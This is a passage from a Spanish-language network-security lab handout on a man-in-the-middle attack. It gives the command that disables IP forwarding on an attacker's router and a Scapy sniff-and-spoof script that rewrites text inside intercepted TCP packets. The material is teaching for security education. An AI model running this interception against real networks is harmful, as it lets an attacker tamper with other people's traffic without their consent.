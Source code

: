 Una vez que se establece la conexión, puede escribir mensajes en la máquina víctima. 
Cada linea de mensajes será colocada en un paquete TCP que será enviado al destino, quién mostrará el mensaje.
Su tarea es reemplazar cada ocurrencia de su nombre dentro del mensaje con una secuencia de letras A. La longitud de la secuencia debería de ser la misma que la longitud de su nombre de lo contrario el número de secuencia TCP se verá corrompido y por ende toda la conexión TCP. Necesita usar su nombre real, de esta forma sabremos que el trabajo fue hecho por ud.


\paragraph{Desactivando IP Forwarding.}
En la configuración que se usa, el IP Forwarding para el router está activado, lo que le permite funcionar como un router y forwardear paquetes. Cuando lanzamos un ataque MITM, debemos de detener el forwardeo de paquetes IP; en vez de esto, interceptaremos el paquete, lo modificaremos y enviaremos un nuevo paquete.
Para hacer esto, necesitamos desactivar el IP Forwarding en el router malicioso.

\begin{lstlisting}
# sysctl net.ipv4.ip_forward=0
\end{lstlisting}


\paragraph{Código MITM.}
Una vez desactivado el IP Forwarding, nuestro programa necesita ser capaz de hacer el forwardeo de los paquetes desde la víctima hacia el objetivo, desde ya todo esto se hace después de modificar los paquetes. Dado que el destino de un paquete no somos nosotros, el kernel no nos lo entregará; simplemente descartará el paquete. Sin embarg, si nuestro programa es un sniffer, podemos obtener el paquete del kernel. Para implementar este ataque MITM usaremos la técnica de sniff-and-spoof.
A continuación brindamos un ejemplo de un programa de sniff-and-spoof que captura paquetes TCP, modifica algunos de sus valores antes de que sean enviados.
Puede encontrar el código dentro de los archivos del laboratorio.

\begin{lstlisting}[language=python, caption={Sample code: \texttt{mitm\_sample.py}}]
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'seedlabs', b'AAAAAAAA')

       send(newpkt/newdata)
   else:
       send(newpkt)

f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}


